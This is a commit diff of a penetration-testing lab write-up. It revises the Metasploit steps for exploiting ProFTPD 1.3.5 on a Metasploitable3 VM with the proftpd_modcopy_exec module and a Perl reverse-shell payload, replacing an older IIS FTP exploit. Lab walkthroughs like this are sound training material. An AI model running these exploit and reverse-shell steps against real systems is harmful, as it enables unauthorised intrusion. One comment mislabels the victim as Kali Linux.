

update phase 1 adding exploit

diff --git a/phase_1/attack.md b/phase_1/attack.md
@@ -1,12 +1,12 @@
 # Metasploit Exploitation
 
-This document outlines the process of exploiting the IIS FTP service on Metasploitable3 using the Metasploit Framework.
+This document outlines the process of exploiting a **ProFTPD 1.3.5** server on Metasploitable3 using the `proftpd_modcopy_exec` exploit in Metasploit.
 
 ## Exploitation Steps
 
 ### 1. Starting Metasploit Framework
 
-Started the Metasploit Console:
+Launched the Metasploit Console:
 
 ```bash
 msfconsole
@@ -14,19 +14,19 @@ msfconsole
 
 ![attacker 1](./screenshots/attacker-1.png)
 
-### 2. Identifying Appropriate Exploit
+### 2. Selecting the Exploit
 
-Identified the appropriate exploit:
+Used the `proftpd_modcopy_exec` module targeting ProFTPD 1.3.5:
 
 ```bash
-use exploit/windows/ftp/ms09_053_ftpd_nlst
+use exploit/unix/ftp/proftpd_modcopy_exec
 ```
 
 ![attacker 2](./screenshots/attacker-2.png)
 
 ### 3. Configuring the Exploit
 
-Examined required options:
+Verified settings:
 
 ```bash
 show options
@@ -34,23 +34,22 @@ show options
 
 ![attacker 3](./screenshots/attacker-3.png)
 
-Set the required parameters:
+#### Set Parameters
 
 ```bash
-set RHOSTS 192.168.1.X  # Metasploitable3 IP
-set RPORT 21
+set RHOSTS 192.168.56.102   # Victim's IP (Kali Linux)
+set LHOST 192.168.56.101    # Attacker's IP (Kali Linux)
+set SITEPATH /var/www/html/
 ```
 
 ![attacker 4](./screenshots/attacker-4.png)
 
-### 4. Selecting and Configuring Payload
+### 4. Payload Configuration
 
-Set the payload:
+Selected a Perl-based reverse shell payload for reliability:
 
 ```bash
-set PAYLOAD windows/meterpreter/reverse_tcp
-set LHOST 192.168.1.Y  # Kali Linux IP
-set LPORT 4444
+set payload cmd/unix/reverse_perl
 ```
 
 ![attacker 5](./screenshots/attacker-5.png)
@@ -63,4 +62,4 @@ Launched the exploit:
 exploit
 ```
 
-[Screenshot: metasploit_execute_exploit.png]
+![attacker 6](./screenshots/attacker-6.png)
